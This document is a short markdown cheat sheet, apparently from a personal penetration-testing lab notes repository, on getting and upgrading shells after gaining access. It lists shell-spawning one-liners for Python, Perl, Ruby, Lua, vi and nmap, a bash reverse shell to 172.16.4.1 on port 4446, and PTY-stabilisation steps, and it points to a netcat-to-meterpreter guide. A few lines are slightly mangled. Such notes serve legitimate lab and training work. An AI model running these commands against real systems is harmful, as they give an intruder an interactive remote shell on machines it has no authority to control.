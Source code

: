 # Upgrading your Shell

I felt a new section was relevant simply based on the results I found from one of my sessions.
There are both a number of ways to establish a session (`netcat`, `bash`), as well as to upgrade your session.

```bash
# Get a shell from Python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')

# Get a new bash shell if the initial gets disconencted
/bin/sh -i

# Perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";

# Ruby
ruby: exec "/bin/sh"

#Lua
lua: os.execute('/bin/sh')

(From within IRB)
exec "/bin/sh"

(From within vi)
:!bash
:set shell=/bin/bash:shell

(From within nmap)
!sh


#!/bin/bash
/bin/bash -i >& /dev/tcp/172.16.4.1/4446 0>&1
```

### Upgrading a PTY

This is when you have the ability to get a python pty session -   
```bash
# Get the initial pty
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background my session
Ctrl-Z

# Check Current shell info - looking for my shell session to match the target to
echo $TERM

# Set the STTY to not echo
stty raw -echo

# Bring back the shell
fg

# Set the target shell settings to match my box
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

Additionally, [upgrade](https://github.com/chrisaboyd/Samples/blob/main/VHL/nc_to_meterpreter.md) your netcat shell to meterpreter!
